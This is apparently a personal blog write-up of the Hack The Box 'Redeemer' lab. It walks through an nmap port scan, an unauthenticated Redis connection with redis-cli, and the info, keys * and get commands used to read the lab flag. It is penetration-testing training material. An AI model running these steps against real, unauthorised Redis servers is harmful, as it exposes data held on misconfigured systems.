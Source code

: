 ```yaml
---
title: "Hack The Box - Redeemer"
date: 2022-10-12T02:41:09+05:30
draft: false
description: 
hideToc: false
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- Redis
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/redeemer/redeemer1.png
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Redeemer Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Redeemer</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>


## Kill Chain Summery
While enumerating ports and services we can able to find the port 6379 ware open. while tryed to connect without using any password. we got connected to Redis and get downloaded sensitive files. 

## Recon

let’s start with initial default scan (-sC). we did’t get any results, it shows that there is no services running on top 1000 ports. since we don’t know  vulnerable target port  so we can scan first 10000 ports 

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ nmap -p1-10000 10.129.145.0
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 17:00 IST
Stats: 0:03:24 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 57.69% done; ETC: 17:06 (0:02:30 remaining)
Stats: 0:07:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.21% done; ETC: 17:09 (0:00:52 remaining)
Nmap scan report for 10.129.145.0
Host is up (0.19s latency).
Not shown: 9999 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 651.16 seconds
```

Databases are a collection of organized information that can be easily accessed, managed and updated. 

There are different types of databases and one among them is Redis, which is an 'in-memory' database. In - memory databases are the ones that rely essentially on the primary memory for data storage (meaning that the database is managed in the RAM of the system); in contrast to databases that store data on the disk or SSDs. As the primary memory is significantly faster than the secondary memory, the data retrieval time in the case of 'in-memory' databases is very small, thus offering very efficient & minimal response times.

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ nmap -sC -sV -p 6379 10.129.145.0
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 18:07 IST
Nmap scan report for 10.129.145.0
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

In-memory databases like Redis are typically used to cache data that is frequently requested for quick retrieval.  We can infer from the scan result that only one port is open on the target machine, i.e. port 6379 which is running a Redis server

Redis (REmote DIctionary Server) is an open-source advanced NoSQL key-value data store used as a database, cache, and message broker. The data is stored in a dictionary format having key-value pairs. It is typically used for short term storage of data that needs fast retrieval. Redis does backup data to hard drives to provide consistency

Redis runs as server-side software so its core functionality is in its server component. The server listens for connections from clients, programmatically or through the command-line interface. The database is stored in the server's RAM to enable fast data access. Redis also writes the contents of the database to disk at varying intervals to persist it as a backup, in case of failure.

In order to work with redis you have to install  ``` redis-cli ```  type this command to install it ``` sudo apt install redis-tools ```

```jsx
atom@atom-VirtualBox:~/htb/dancing$ sudo apt install redis-tools
[sudo] password for atom: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
The following packages were automatically installed and are no longer required:
  chromium-codecs-ffmpeg-extra gstreamer1.0-vaapi libgstreamer-plugins-bad1.0-0 libva-wayland2
Use 'sudo apt autoremove' to remove them.
The following additional packages will be installed:
  libatomic1 libhiredis0.14 libjemalloc2 liblua5.1-0 lua-bitop lua-cjson
Suggested packages:
  ruby-redis
The following NEW packages will be installed:
  libatomic1 libhiredis0.14 libjemalloc2 liblua5.1-0 lua-bitop lua-cjson redis-tools
0 upgraded, 7 newly installed, 0 to remove and 0 not upgraded.
Need to get 887 kB of archives.
After this operation, 3,955 kB of additional disk space will be used.
Do you want to continue? [Y/n]
```

``` info ```  command is used to for gathering information 

```jsx
atom@atom-VirtualBox:~/htb/dancing$ redis-cli -h 10.129.136.187
10.129.136.187:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
```

``` keys * ``` used to list the keys 

```jsx
10.129.136.187:6379> keys *
1) "flag"
2) "numb"
3) "temp"
4) "stor"
```

``` get ``` command is used to view content of the flag 

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ redis-cli -h 10.129.145.83
10.129.145.83:6379> get flag
```

```bash
10.129.136.187:6379> get flag
"03e1d2b---------9922053953eb"
```
